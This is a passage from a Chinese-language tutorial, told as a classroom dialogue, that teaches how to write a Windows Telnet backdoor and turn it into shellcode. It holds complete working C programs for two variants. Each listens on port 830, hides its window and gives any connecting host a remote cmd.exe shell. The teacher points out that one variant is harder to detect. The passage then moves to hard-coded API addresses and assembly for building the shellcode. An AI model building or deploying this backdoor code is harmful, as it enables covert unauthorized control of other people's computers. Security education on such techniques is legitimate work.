           //如果连接失败，退出程序
           printf("connet error\n"); 
           closesocket(sockfd); 
           exit(1); 
} 
 //接收数据，并打印出来
if ((numbytes=recv(sockfd, buf, MAXDATASIZE, 0)) == -1) 
{ 
           //接收数据失败，退出程序
           printf("recv error\n"); 
           closesocket(sockfd); 
           exit(1); 
} 
buf[numbytes] = '\0'; 
printf("Received: %s",buf); 
closesocket(sockfd); 
return 0; 
}
```

“仍然是流程最关键，”老师又强调了一遍，“我们也把脉络提出来过一遍吧！”

对客户端程序的流程概括：

首先是初始化 Windows Socket Dll： `WSAStartup(MAKEWORD(2,2),&ws);`

然后建立 Socket： `sockfd = socket(AF_INET, SOCK_STREAM, 0)`

接着连接服务器方：

```
their_addr.sin_family = AF_INET;                                 /* 协议类型是 INET    */ 
their_addr.sin_port = htons(PORT);                           /* 连接对方 PORT 端口      */ 
their_addr.sin_addr.s_addr = inet_addr(argv[1]);         /* 连接对方的 IP  */ 
connect(sockfd, (struct sockaddr *)&their_addr,sizeof(struct sockaddr))
```

连接成功就接收数据： `recv(sockfd, buf, MAXDATASIZE, 0)`

最后把收到的数据打印出来并关闭套接字：

```
printf("Received: %s",buf);      closesocket(sockfd);
```

“这个程序的执行要带对方服务器的 IP 地址为参数，所以要这样执行，如图 3－11。”


“我们还是先打开服务端的程序，让它监听端口，再运行客户端的程序去连接它，其效果如图 3－12。”


“哦！又收到服务器发的数据了。”同学们高兴的说。

“我有点明白了！编程就是用一系列的函数完成构思的流程图中的每个部分。”宇强说道，“所以思路才是关键。”

“你总结得很好！”老师赞扬的说：“程序的本质是算法加数据结构。算法就是流程图，数据结构就是定义适当的变量来调用适合的函数。”

“当然，如果作为一个软件，就不局限于此了。软件追求的是满足用户提出的需求，并提供给用户人性化的界面。”

“我们知道了如何编程实现数据在网络上的传输，就可以给目标机发送命令和接收执行的结果了。”

“传输是可以了，但对方的计算机怎样执行我们传过去的命令呢？”宇强问道。

“问得好！这就要涉及到进程通信以及管道了。”

# 3.1.2 进程间通信及管道

### 3.1.2 进程间通信及管道

“再重述一遍我们 Shellcode 的功能：在目标机器开一个 Telnet 服务器，监听某个端口，然后等待攻击机来连接。当攻击机连接之后，为它开创一个 cmd.exe，把攻击机的输入输出和 cmd.exe 的输入输出联系起来。这样，远程攻击者就像 Telnet 一样，有了一个远程 Shell。”

“刚才我们学习了绑定某个端口，接受连接和发送数据的编程实现。接下来我们要：一、开创 cmd.exe 进程；二、把 CMD 进程和客户的输入连起来。”

“先看第一个，为客户开创一个 cmd.exe。可以用 CreateProcess 来创建这个子进程，其原型是：

```
BOOL CreateProcess(
  LPCTSTR lpApplicationName,
  LPTSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCTSTR lpCurrentDirectory,
  LPSTARTUPINFO lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

“哇！好多参数啊！”台下的眼睛都看大了。

“很多参数都可以不用，直接用 NULL（即空）来代替即可。我们把它的第二个参数设为 cmd.exe /k ，就可以直接创建一个控制台窗口，而且不消失，程序如下：”

```
#include<windows.h>
int main()
{
     PROCESS_INFORMATION ProcessInformation;
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     CreateProcess(NULL, "cmd.exe /k",NULL, NULL,1,0,NULL, NULL, &si, &ProcessInformation);
     return 0;
}
```

“主要使用了三个参数，执行效果如图 3－13，开创了一个 CMD 窗口，参数‘/k’使控制台执行并保留下来。”


“哦！好像又是一种开本地控制台窗口的好方法啊！”台下有人说道。

“是啊！你们能意识到就很好！知识就是这样，前后可以融会贯通。”老师说，“现在就剩下把远程攻击机的输入输出和 cmd.exe 的输入输出联系起来了，这就涉及到进程间的通信了。”

小知识：进程间通信（IPC）机制

进程间通信（IPC）机制是指同一台计算机的不同进程之间或网络上不同计算机进程之间的通信。Windows 下的方法包括邮槽（Mailslot）、管道（Pipes）、事件（Events）、文件映射（FileMapping）等。

“在这里，我们使用匿名管道（Anonymous Pipe）来完成这个联系过程。”

“管道？匿名管道？”大家更晕了。

“管道（Pipe）是一种简单的进程间通信（IPC）机制。实际是一段共享内存，在 Windows NT/Win2000/ Win 98/ Win 95 下都可以使用。一个进程向管道写入数据后，另一个进程就可从管道的另一端将其读取出来。”

“管道分有名和匿名两种。命名管道可以在同台机器的不同进程间以及不同机器上的不同进程之间进行双向通信。而匿名管道就要简单多了，只是在父子进程之间或者一个进程的两个子进程之间进行通信，它是单向的。”

“匿名管道实际上是内存中的一个独立的临时存储区，它对数据采用先进先出的方式管理，并严格按顺序操作，不能被搜索。”

“有了管道，我们向其他进程传输数据时就可像对普通文件读写那样简单。管道操作标示符是 HANDLE，也就是说，我们可以直接使用 readFile、WriteFile 来读写，根本不必了解网络间/进程间通信的具体细节。”

老师说了这么多，台下似懂非懂。

“不要紧，等会看看具体的程序就能清楚流程和具体的实现。”老师轻松的说道，“这里先介绍一下相关函数，匿名管道由 CreatePipe（）函数创建。”

CreatePipe（）函数相关知识

CreatePipe（）的函数原型为：

```
BOOL CreatePipe(   PHANDLE hReadPipe,
PHANDLE hWritePipe,
LPSECURITY_ATTRIBUTES lpPipeAttributes,
DWORD nSize );
```

功能是创建匿名管道，并返回管道的读句柄和写句柄。

参数：

“hReadPipe”指向返回的读句柄的指针；

“hWritePipe”指向返回的写句柄的指针；

“lpPipeAttributes”指向安全属性的指针；

“nSize”表示管道的大小。

“创建了匿名管道和相应的读写句柄后，我们把写句柄放入一个进程中，读句柄放入另一个进程中，注意这两个进程必须要是父子继承关系，通过设置 CreateProcess（）的 bInheritHandles 为 True 来实现。”

“第一个进程要把数据写入 Pipe，针对写句柄调用 WriteFile 函数即可。WriteFile 函数将数据写入一个文件，成功返回非 0，失败返回 0；”

“另一个进程要读取 Pipe 里的数据时，针对读句柄先调用 PeekNamedPipe 函数，用来确定 Pipe 中是否有数据，然后再调用 ReadFile 函数，将 Pipe 中的数据读出。”

“管道通信的整体流程示意图如图 3－14。”老师在黑板上画了出来。


“哦！”大家一口气听完，感觉还是有点过瘾。

“进程间的通信就是这样的。现在预备知识都有了，大家休息一下，下节课我们把它们结合起来，构造出一个完整的 Telnet 后门程序。”

小知识：Pipe 的共用、建立、写入和读取过程

（ 1 ） Pipe 的共用。 Windows 中的 Pipe 并不是共用资源，2 个进程如果没有“父子“关系，而且子进程又没有继承父进程资源，那么这 2 个进程将无法使用 Pipe 来传递数据。如何让 2 个进程产生父子及继承关系呢？条件是子进程由父进程启动，且在启动子进程时必须设置好继承参数。

上面的条件，通过调用 API 函数 CreateProcess 就可以实现。其中 CreateProcess 函数用来创建新进程，返回值非 0 表示成功，为 0 表示失败。为了让 2 个进程产生父子及继承关系，参数“bInheritHandles”应设置为 True。

（ 2 ） Pipe 的建立。 设置好 Pipe 的共用后，父进程通过调用 API 函数 CreatePipe 来创建 Pipe，之后再将 Pipe 设置成可继承的。其中，CreatePipe 函数用来创建一个匿名管道，返回值为 Long，非 0 表示成功，0 表示失败。

（3）Pipe 的写入和读取　　

Pipe 的写入：要将数据写入 Pipe，调用 WriteFile 函数即可；其中，WriteFile 函数将数据写入一个文件。返回值为 Long，TRUE（非 0）表示成功，否则返回 0。

Pipe 的读取：必须分两步：先调用 PeekNamedPipe 函数，用来确定 Pipe 中是否有数据，以避免数据接收方长时间等待或处于永远等待状态；再调用 ReadFile 函数将 Pipe 中的数据读出。其中，PeekNamedPipe 函数不会把 Pipe 中的数据读走，若 Pipe 中没有数据，它会正常返回，不会长时间等待，但 ReadFile 函数会长时间等待。

通过以上步骤，就可以利用 Pipe 技术来传送数据了。

# 3.2 后门总体思路

## 3.2 后门总体思路

十分钟后，大家又坐好了，老师叮嘱道：“我一直强调：学东西，关键是学思路。有了整体的解决思路，那剩下的东西处理起来就比较方便了，这一点大家千万不要忘记啊！”

“嗯！好的！”同学们齐声答道。

“这里也一样，我们先来理清楚 Telnet 后门实现的总体流程，再来看如何实现。”

老师说：“大家先讨论一下，如何根据刚才的背景知识编写出 Telnet 的后门程序。”

老师接着说：“这次采用分组方式，每两个人一组，先组内讨论，然后每个组把构想的方法公布出来，最后大家再来一起讨论。”

“分组就按名单来分吧！”老师对着花名册念到，“古风和玉波一组；宇强和吴小倩一组……”

宇强的心里一为之动：我名字和吴小倩的名字是挨在一起的么？

分组完毕，大家都忙着找 Partner，并七嘴八舌的讨论起来。宇强也站了起来，走到小倩面前，小心翼翼的问道：“我们是一组的吗？”

“是啊，你是宇强吧，你好！” 小倩对着宇强眨了眨眼睛，大大的眼睛好似一潭平静的湖水。

“你……好！” 宇强反而还有一阵慌乱。

“你坐下啊！”小倩指着旁边的位子说。

“好的，” 宇强的大脑是一片空白，闻到小倩秀发飘过来的清香味，不禁迷糊了，是梦还是现实呢？

“你的思路是什么呢？”一个声音把宇强拉了回来。宇强急忙理理思路，说道：“具体的我还不太清楚，但有一些感觉。”

“哦？什么感觉呢？”

其实，宇强想说是对你有感觉，但觉得未免太唐突和搞笑了，于是说：“老师把技术背景都讲了，我感觉把它们按一定的逻辑组合起来，就可以得到完美的 Tlnet 后门程序。”

“哦，逻辑组合？”小倩感兴趣的说道，“我觉得也有可能是这样。”

“嗯，我们边讨论边写下来吧！ 宇强看到小倩并不讨厌自己，心里又了镇定很多。

“好的，”小倩拿出笔和纸，边说边画，“首先是有攻击机、标机，它们之间可以通过套接字 Socket 通信，如图 3－15。”


“多么隽永的字啊！” 宇强暗想。见小倩要转头问他了，于是忙着补充说：“嗯，然后是一个父进程和子进程，它们之间可以通过管道 pipe 通信。”

“嗯，对，也把它画下来吧！”

“匿名管道是单向的，所以要相互通信必须要建两个匿名管道。” 宇强提醒道。

“哦，对！所以应该是这样，如图 3－16。”


“然后呢？”画好图后，小倩问。

宇强说：“我想应该把两个图合起来。攻击机发的命令通过 Socket 传给目标机的父进程，目标机的父进程又通过一个匿名管道传给子进程，这里的子进程应该是 cmd.exe，cmd.exe 执行命令后，把结果通过另一个匿名管道返给父进程，父进程最后再通过 Socket 返回给攻击机。其示意图应该如图 3－17。”


“哇！思路越来越清楚了！”小倩欢呼到。

“但……”宇强挠挠头，为难的说道，“这个方法可不可行，如何编程实现，我都还不太清楚。”

“能想到这一点，已经非常不错了！”身后一个声音把两人都吓了一跳。两人回头一看，原来老师巡查到这儿来了。

“好了，”老师对着全班同学大声说道，“分组讨论就到这里。大家回到原来的位置上去，我们一起来总结。”

教室里又是一阵忙乱，宇强犹豫的站了起来，鼓气勇气向小倩问道：“嗯，可以问下你的电话吗？”接着忙解释到：“以后有什么问题候好讨论啊！”

“哦！这样啊，我的电话 8541XXXX。”女孩笑了，“应该是我多向你请教才是呢！”

“哪里哪里，互相学习嘛！” 宇强一边客气，一边抑制住住心中的喜悦。

回到位置上，坐一旁的古风问道：“怎么样？有结果么？”

“嗯！一般般吧！” 宇强心不在焉的说，只顾忙着找纸把号码记下来。

“我和玉波讨论的结果是这样的，”古风说道，“我们觉得可行，老师也说可行，Yeah！”

“哦？” 宇强记下了号码，听古风这么一说，兴趣也一下子提了起来，“是什么思路呢？”

古风说：“CreateProcess 可以传参数开进程，像刚才的 cmd /k ，那目标机通过网络收到命令后，就以命令为参数开启一个 CMD 新进程，比如 cmd /c dir ，命令执行完毕后新进程自动消失，结果通过一个匿名管道返回给父进程，父进程由 Socket 传回给攻击机。”

古风拿出他们画的示意图，如图 3－18。


“不错不错！”宇强赞叹道，心里暗想：“我怎么就没有想到呢？”

“那你们的思路呢？”古风说完后问宇强。

宇强正要开口，老师在台上说话了：“大家安静，我们来总结一下。”课堂逐渐安静下来，古风和宇强也停止了说话。

老师说：“刚才我注意了大家的讨论，都很认真，而且也提出了很多不错的思路。同学们大都想出来了，ShellCode 的功能分为主进程和子进程，主进程的功能是网络连接——传输命令和结果；子进程的功能是执行 cmd.exe 命令。”

大家都点点头。

老师继续说：“要把 cmd.exe 的输入输出和主进程联系起来，有两种思路。第一种方法是只用一个匿名管道，有命令数据来，主进程以数据为参数马上新建一个 cmd.exe 进程执行，执行的结果由匿名管道返回。”

宇强悄悄对古风说：“是你们的思路也。”古风咧嘴笑了笑。

“另一种方法是用两个匿名管道，只开一个 cmd.exe 进程。有命令来时，通过一个匿名管道传给 cmd.exe，执行结果通过另一个匿名管道返回给主进程。”

“这就是我们的思路！”宇强兴奋的对古风说。

老师在台上继续总结道：“第一种方法的好处是：来一个命令数据就马上开 cmd.exe 进程执行并退出，所以不会有 CMD 进程出现，不易被发现；而第二种方法的好处是：只创建了一次 cmd.exe 的进程。”

小结：

第一种思路：一个管道。有命令来，则以命令为参数开 CMD 进程，执行结果从管道返回；

第二种思路：两个管道。开创 CMD 进程，命令数据从一个管道中输入，执行结果从另一个管道中返回。

# 3.3 Telnet 后门的高级语言实现

## 3.3 Telnet 后门的高级语言实现

“那怎么编程实现呢？”宇强按捺不住好奇的心情，问道。

“是啊，怎么实现呢？”其他同学也很想知道。

老师说：“好的。大家想的这两种方法，思路上都差不多，我们一起来看看它们的实现吧！”

# 3.3.1 双管道后门的实现

### 3.3.1 双管道后门的实现

老师说，“我们首先看看两个匿名管道情况的实现方法。”

“有实现的思路和网络通信编程的基础，理解起来还是比较容易。”

“首先是初始化 Socket，然后 Bind 端口，再监听 Listen，直到有客户请求，就 Accept 请求。示意代码如下：”

```
//初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
     //建立 socket
     listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
     ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
     ret=listen(listenFD,2);
SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
```

“然后创立两个 Pipe，第一个管道用于输出执行结果，第二个管道用于输入命令。”

```
CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
```

“按照前面的分析，我们把 CMD 子进程输出句柄用管道 1 的写句柄替换，和前面一样，主进程就可以通过读管道 1 的读句柄来获得输出；另外，我们还要把 CMD 子进程的输入句柄用 2 的读句柄替换，主进程就可以通过写管道 2 的写句柄来输入命令。如图 3－19。”


“这里比较麻烦，我再讲一次，其通信过程如下：”

```
(远程主机)←输入←管道 1 输出←管道 1 输入←输出(cmd.exe 子进程)
(远程主机)→输出→管道 2 输入→管道 2 输出→输入(cmd.exe 子进程)
```

“为了得到这样的效果，我们设置 CMD 子进程启动参数‘si’为如下：”

```
si.hStdInput = hReadPipe2;
si.hStdOutput = si.hStdError = hWritePipe1;
```

“就是替换进程的输出句柄为管道 1 的写句柄，输入句柄为管道 2 的读句柄。最后再开启 CMD 命令就可以了。”

```
CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation)
```

“CMD 子进程启动后，就要和远程攻击机之间通信，传输用户的命令和结果。实现是先检查管道 1，即 CMD 进程是否有输出。如果有，就读出来发给远程客户机；如果没有，就接收远程客户机的命令，并写入管道 2，即传给 CMD 进程中。代码如下：”

```
//检查管道 1，即 CMD 进程是否有输出
ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              //将命令写入管道 2，即传给 CMD 进程
              ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
         }
```

“把它们合起来，就得到程序 pipe2.cpp，如下：”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
 int main()
{
     WSADATA ws;
     SOCKET listenFD;
     char Buff[1024];
     int ret;
      //初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
     //建立 Socket
     listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
     //监听本机 830 端口
     struct sockaddr_in server;
     server.sin_family = AF_INET;
     server.sin_port = htons(830);
     server.sin_addr.s_addr=ADDR_ANY;
     ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
     ret=listen(listenFD,2);
     //如果客户请求 830 端口，接受连接
     int iAddrSize = sizeof(server);
     SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
     SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
     HANDLE hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;
     //建立匿名管道 1
     pipeattr1.nLength = 12; 
     pipeattr1.lpSecurityDescriptor = 0;
     pipeattr1.bInheritHandle = true;
     CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
     //建立匿名管道 2
     pipeattr2.nLength = 12; 
     pipeattr2.lpSecurityDescriptor = 0;
     pipeattr2.bInheritHandle = true;
     CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
     si.wShowWindow = SW_HIDE;
     si.hStdInput = hReadPipe2;
     si.hStdOutput = si.hStdError = hWritePipe1;
     char cmdLine[] = "cmd.exe";
     PROCESS_INFORMATION ProcessInformation;
     //建立进程    
ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
     /*
     解释一下，这段代码创建了一个 cmd.exe，把 cmd.exe 的标准输出和标准错误输出用第一个管道的写句柄替换；cmd.exe 的标准输入用第二个管道的读句柄替换。
     如下：
      (远程主机)←输入←管道 1 输出←管道 1 输入←输出(cmd.exe 子进程)
     (远程主机)→输出→管道 2 输入→管道 2 输出→输入(cmd.exe 子进程) 
     */
     unsigned long lBytesRead;
     while(1)
     {
         //检查管道 1，即 CMD 进程是否有输出
         ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
         else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              //将命令写入管道 2，即传给 cmd 进程
              ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
         }
     }
     return 0;
}
```

“我们执行 pipe2.cpp，本机就会打开 830 端口监听。如果其他机器 Telnet IP 830 ，就会给它一个远程的 Shell，可以在那个 Shell 下输入命令执行，如图 3－20。”


“哦，好可爱的 Shell 啊！真想咬一口。”玉波说道。

“你怎么老想到吃啊……”

“哈哈……”大家都笑了，整个课堂气氛更加融洽。

“那单管道的后门又是怎样实现的呢？”古风又心急的问。

“好，我们也一起来看看吧！”

# 3.3.2 单管道后门的实现

### 3.3.2 单管道后门的实现

“有了双管道后门的实现基础，单管道后门的实现就简单了。我们只看不同的地方。”老师在黑板上写出来。“和双管道不同的地方就是：只建一个管道，然后将 CMD 子进程的输出句柄用管道的写句柄替换，如下：”

```
CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
si.hStdOutput = si.hStdError = hWritePipe1;
```

“传输用户的命令和结果，先检查管道里有没有输出数据，如有，就将数据读出并发送给客户机；如果没有，就接收远程客户机的命令数据，把命令数据和 cmd /c 合起来，作为参数开启一个新的 CMD 子进程。代码如下：”

```
ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
         else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              strcpy(cmdLine, "cmd.exe /c");            //cd\ & dir
              strncat(cmdLine, Buff, lBytesRead);
              //以命令为参数，启动 CMD 执行
                          CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
         }
```

“注意，这里的 cmd /c 意思是命令执行完毕后，退出 DOS 窗口程序。”老师提醒道，“测试时我们将会深刻理解它的意思。”

“我们把程序连起来，接收远程命令数据→开进程执行→读出并传回，形成不断的循环，最后再加入错误处理代码，就是一个单管道的 Telnet 后门了。”

```
#include <winsock2.h>
#include <stdio.h>
#include <string.h>
#pragma comment(lib,"Ws2_32")
int main()
{
     WSADATA ws;
     SOCKET listenFD;
     char Buff[1024];
     int ret;
     //初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
     //建立 socket
     listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
     //监听本机 830 端口
     struct sockaddr_in server;
     server.sin_family = AF_INET;
     server.sin_port = htons(830);
     server.sin_addr.s_addr=ADDR_ANY;
     ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
     ret=listen(listenFD,2);
     //如果客户请求 830 端口，接受连接
     int iAddrSize = sizeof(server);
     SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
     SECURITY_ATTRIBUTES pipeattr1;
     HANDLE hReadPipe1,hWritePipe1;
     //建立匿名管道 1
     pipeattr1.nLength = 12; 
     pipeattr1.lpSecurityDescriptor = 0;
     pipeattr1.bInheritHandle = true;
     CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
     si.wShowWindow = SW_HIDE;
     //si.hStdInput = hReadPipe2;
     si.hStdOutput = si.hStdError = hWritePipe1;
     PROCESS_INFORMATION ProcessInformation;
     char cmdLine[200];
     unsigned long lBytesRead;
     /*
     以命令为参数运行 cmd.exe
     (远程主机→传送命令－→以命令为参数建立 cmd.exe 子进程运行
     (远程主机)←输入→管道 1 输出→管道 1 输入→输出(cmd.exe 子进程)
     */
     while(1)
     {
         //检查管道 1，即 cmd 进程是否有输出
         ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
         else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              strcpy(cmdLine, "cmd.exe /c");            //cd\ & dir
              strncat(cmdLine, Buff, lBytesRead);
               //以命令为参数，合成后启动 CMD 执行
CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
         }
     }
     return 0;
}
```

“哦，测试一下！”大家都想看效果。

“好的，我们测试一下，定义监听的端口是 830，执行后再在另一台机器上 Telnet IP 830 ，这样就可执行任意命令了，如图 3－21。”


“哦，好呢！”大家忙着敲入几个命令，然后有人说道：“啥提示符都没有……”

“哎哟，没提示符是小事，怎么执行 cd/ 命令没有效果呢？”古风说，“用 dir 命令始终是在这个目录下。”

大家一实践，都发现了。“是啊！好奇怪啊！”

宇强说：“我试试双管道的程序。”操作一番后，宇强说，“双管道是正常的啊！”

“哦？那这是怎么回事啊？”大家都望着老师。

“呵呵！我说过实践的时候大家就会发现问题……”

“啊？莫非是那个 cmd /c 参数的问题?” 宇强想了起来。

“对！”老师说道，“我们输入 cmd /? 后，就会出现图 3－22 所示的帮助。”


“哇！cmd 命令有这么多参数和作用啊？”

“是的，所以像函数和程序具体的用法，我们在使用时查帮助和手册就可以了。我们人类的大脑可不是用来记这个的。大家看看帮助里面是怎么解释的吧！”

“ cmd /c ，执行字符串指定的命令然后中断。”大家念道。

宇强一下叫了起来：“哦！我明白了！”

“什么？快说，快说！”其他人催促道。

“大家想想啊，‘/c’是执行完命令后就中断，我们执行 cd/ 命令后，子进程就没了。下一次的 dir 命令是新一个 CMD 进程执行的，那当然又是默认目录了！”

“对啊！”其他人一下明白了，“一个子进程只执行一次命令，这就是单管道的特点啊！”

“那我们想执行 cd/ 命令后再执行 dir 怎么办呢？”小倩也问道，“没有办法了吗？”

老师说：“也有办法的。在 DOS 下，‘&’可以把几个命令合起来。所以我们可以这样输入命令： cd/ & dir 。这样，CMD 就会先执行 cd/ 命令，然后执行 dir 命令，最后再退出。”

“试一下。”大家边说边试。“啪”！显示出了 F 盘下的文件。

“哦！果然成功了！”

“太好了！”大家都情不自禁的鼓起掌来。

# 3.4 生成 ShellCode

## 3.4 生成 ShellCode

“好，功能实现了，但不要忘了我们的目的。把它转化成我们想要的 ShellCode 吧！”老师说道。

“好啊！”大家又是一阵欢呼。

“汇编编写和 ShellCode 的提取，都以上周的课为基础。记不清楚的同学，先翻翻 ShellCode 编写基础的笔记吧！”

# 3.4.1 转换成汇编

### 3.4.1 转换成汇编

老师说：“我们还是和以前一样，先根据功能写出汇编，再提取 ShellCode。”

“哦，这样有点麻烦！”玉波有点不情愿。

“虽然这样比较麻烦，但能让我们深刻理解系统是如何执行程序的。以后再讲提取的改进方法吧！”老师说道，“首先，我们把双管道后面程序 pipe2.cpp 改写成汇编。”

“第一、我们先不考虑通用性。把所有要使用的函数地址都找出来，修改那个地址查找程序——GetAddr.cpp，查找 pipe2.cpp 中要用的函数地址。在 Windows XP SP0 下，程序 GetBindAddr.cpp 的执行结果如图 3－23。”


“这里改成用 XP 系统了啊？”大家觉得奇怪，“之前都是 Windows 2000 的嘛！”

“这里换个系统，是不要让大家对系统版本有依赖性。其实，前面我们讨论的方法都是通用的。”老师说道，“所以无论是 Win2000 还是 XP，除地址不同外，后面的方法是完全一样的。好，我们把找到的函数地址抄下来。如下：”

```
CreatePipe = //x77e5727a
CreateProcessA = //x77e41bb8
PeekNamedPipe = //x77e97624
WriteFile = //x77e59d8c
ReadFile = //x77e58b82
ExitProcess = //x77e55cb5
socket = //x71a23c22
bind = //x71a23ece
listen = //x71a25de2
accept = //x71a2868d
send = //x71a21af4
recv = //x71a25690
```

“在汇编程序中，依次将函数的地址保存如下：”

```
mov eax,0x77e5727a
mov [ebp+4],  eax;     CreatePipe
mov eax,0x77e41bb8
mov  [ebp+8],  eax;  CreateProcessA
mov eax,0x77e97624
mov  [ebp+12], eax;   PeekNamedPipe
mov eax,0x77e59d8c
mov  [ebp+16], eax;   WriteFile
mov eax,0x77e58b82
mov  [ebp+20], eax;   ReadFile
mov eax,0x77e55cb5
mov  [ebp+24], eax;   ExitProcess
mov eax,0x71a241da
mov  [ebp+28], eax;   WSAStartup
mov eax,0x71a23c22
mov  [ebp+32], eax;   socket
mov eax,0x71a23ece
mov  [ebp+36], eax;   bind
mov eax,0x71a25de2
mov  [ebp+40], eax;   listen
mov eax,0x71a2868d
mov  [ebp+44], eax;   accept
mov eax,0x71a21af4
mov  [ebp+48], eax;   send
mov eax,0x71a25690
mov  [ebp+52], eax;   recv
```

“以后我们如果要换一个系统执行，只需将这里的地址值改一下就行了。”老师说道。

“有没有通用的方法呢？”宇强问，“每次改还是有点麻烦。”

“当然有啦！别急，我们会在以后讲解。”老师笑着说，“而现在，我们仿造 Windows 函数调用的流程，写出我们的汇编代码。”

“由 C 程序得到汇编代码的关键，一是将参数入栈，二是 CALL 调用函数的地址。如果有所遗忘，请大家复习上节课的笔记。”

“源程序的第一句指令，是执行 WSAStartup(0x202, &ws)。我们按照函数调用流程，首先将参数从右至左依次压入栈中。”

“后一个参数是‘&ws’，表示一个地址。因为‘ws’以后不会用了，所以我们就随便压个地址，比如 esp 的值；第一个参数是 0x202，我们直接 push 0x202；因为 WSAStartup 的地址保存在[ebp+28]中，所以我们再 call [ebp+28] 就实现了调用，像下面这样，简单吧！”

```
push esp
push 0x202
call [ebp + 28]              //WSAStartup 地址
```

“然后 socket(2,1,6) 也类似，先把 6、1、 2 依次入栈，最后 call socket 的地址。”

```
;socket(2,1,6)
push 6
push 1
push 2
call [ebp + 32]
mov ebx, eax                ; save socket to ebx
```

“怎么知道 socket(AF_INET,SOCK_STREAM,IPPROTO_TCP) 是 socket(2,1,6) 呢？”古风不解的问。

“嗯，第一种方法我们可以查看宏定义里面的值，但比较麻烦；第二种方法就是，我们在 VC 中按 F10 单步调试高级语言写成的 pipe2C.cpp，在执行 socket(AF_INET,SOCK_STREAM,IPPROTO_TCP) 语句时，就可以看到入栈情况。如图 3－24。”


“哦！果然是 6、1、2 依次入栈啊！”大家啧啧称奇。

“这是种很好的方法，”老师说道，“在不知道参数怎么压的时候，就看看高级语言程序是怎么执行的。”

“好，我们继续。bind（）那句高级语言实现如下：”

```
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr=ADDR_ANY;
ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
```

“这个函数有点麻烦，压的参数是怎么得到的呢？”玉波问道。

“我们还是借助于高级语言吧！在对比中学习更利于理解和提高。调试到 bind( )那句函数时，如图 3-25。”


“高级语言执行这句时，首先是 0x10 入栈，说明 sizeof(server)其实就是 0x10。”

“嗯，这个参数简单！”

“第二个参数‘&server’是 sockaddr 结构的地址。在 sockaddr 结构中，包括了绑定的协议、IP、端口号等值。和在堆栈中构造字符串一样，我们也在栈中构造出 sockaddr 的结构，那么 esp 就是 sockaddr 结构的地址了。”

